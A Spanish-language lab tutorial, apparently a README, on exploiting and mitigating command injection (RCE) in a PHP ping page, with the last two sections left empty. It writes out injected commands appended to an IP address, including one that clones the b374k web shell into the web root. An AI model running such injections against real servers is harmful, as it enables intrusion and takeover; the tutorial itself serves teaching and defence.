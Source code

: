 # Explotación y Mitigación de Remote Code Execution (RCE)

De forma sencilla el ***RCE*** es una vulnerabilidad en la que un servicio web permite hacer una inyección de lenguaje scripting básico, permitiendo a un atacante ejecutar comando sobre el servidor que contiene en servicio web.

El resultado de esos comandos se muestra en la misma página de forma dinámica.

Algunas de las consecuencias que tiene el *RCE*:

+ Acceso a información sensible (usuarios, archivos, configuración).
+ Ejecución de comandos maliciosos (descarga y ejecución de malware).
+ Escalada de privilegios y control total del sistema.

## Indice
> 1. [Creación de página vulnerable a RCE](#creación-de-página-vulnerable-a-rce)  
> 2. [Mitigaciones de RCE](#mitigaciones-de-rce)  
> &nbsp;&nbsp;&nbsp;&nbsp;2.1 [Eliminar el uso de shell_exec()](#eliminar-el-uso-de-shell_exec)  
> &nbsp;&nbsp;&nbsp;&nbsp;2.2 [Listas blancas](#listas-blancas)  
> &nbsp;&nbsp;&nbsp;&nbsp;2.3 [Ejecutar Comandos con Escapes Seguros](#ejecutar-comandos-con-escapes-seguros)  
> &nbsp;&nbsp;&nbsp;&nbsp;2.4 [Prueba final](#prueba-final)  

## Creación de página vulnerable a RCE

Vamos a crear una pequeña página llamada: [rce.php](./Recursos/rce.php) con un input que va a recibir una dirección ip y se va a encargar de hacer ping a ella:

![RCE.php](./Imagenes/1.png)

El uso legítimo de la página es recibir una dirección ip y te muestra el resultado del ping:

![ping](./Imagenes/2.png)

Vamos a probar a introducir el comando ***id*** anidado a una dirección ip de la siguiente manera:

```
8.8.8.8 & id
```

Devueve el resultado del ping y ademas devuelve el resultado del comando id:

![ping](./Imagenes/3.png)

Ahora vamos a listar archivos:

![ping](./Imagenes/4.png)

Vamos a leer el contenido de ***/etc/passwd***:

![ping](./Imagenes/5.png)

Ahora vamos a realizar la prueba de intentar ejecutar malware:

Primero le damos permisos a */var/www/html* en nuestro contenedor:

```
sudo chmod -R 777 /var/www/html/
```
Y ahora intentamos descargarnos el malware desde un repositorio de git:

```
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
```


Al ejecutarse se habra descargado la carpeta **b374k** y dentro de ella varios archivos, entre ellos, **index.html** , que si accedemos a el pode¡remos ejecutar los comandos que queramos:

![ping](./Imagenes/6.png)

![ping](./Imagenes/7.png)

Ya tendriamos el control total del sistema.

## Mitigaciones de RCE


Una vez explotadas la vulnerabilidades vamos a ver como mitigarlas:


Creamos el siguiente archivo llamado [rce2.php](./Recursos/rce2.php) que espera recibir un comando por parámetro por url:


![rce2.php](./Imagenes/8.png)

### Eliminar el uso de shell_exec()

Una forma de mitigación es eliminar la posibilidad de ejecutar comandos eliminando ***shell_exec()***, para ello creamos el archivo [rce3.php](./Recursos/rce3.php):

![rce3.php](./Imagenes/9.png)

Los beneficios de eliminar *shell_exec()* son:

+ Bloquea cualquier intento de ejecución de código en el sistema.
+ Evita ataques RCE de forma definitiva.
+ No necesita más medidas de seguridad, ya que la ejecución de comandos es eliminada.

### Listas blancas

También podemos hacer uso de listas blancas si necesitamos hacer uso de algunos comandos:

Creamos un fichero [rce4.php](./Recursos/rce4.php) con los comandos permitidos '***ls***', '***whoami***' y '***pwd***':

![rce4.php](./Imagenes/10.png)

Si probamos a pasarle un comando de los permitidos funciona:

![rce4.php](./Imagenes/11.png)

En cambio, si introducimos un comando no permitido, nos indica que el comando no esta permitido;

![rce4.php](./Imagenes/12.png)

### Ejecutar Comandos con Escapes Seguros


### Prueba Final
